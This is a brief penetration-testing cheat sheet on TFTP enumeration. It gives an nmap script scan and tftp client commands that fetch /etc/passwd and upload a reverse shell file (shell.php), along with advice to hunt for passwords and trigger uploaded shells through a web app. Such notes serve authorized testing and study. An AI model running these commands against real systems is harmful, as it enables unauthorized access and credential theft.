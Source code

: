 # TFTP Enumeration

## Checks
- Search for files to find sensitive info like passwords
- Upload shells to trigger them in web app

## Commands
nmap
```bash
nmap -sU -p 69 --script tftp-enum.nse $ip
```

Interact with TFTP protocol
```bash
# Setup the connection
tftp 172.16.200.100 
# Get a file    
tftp> get /etc/passwd
# Upload reverse shell 
tftp> put shell.php
```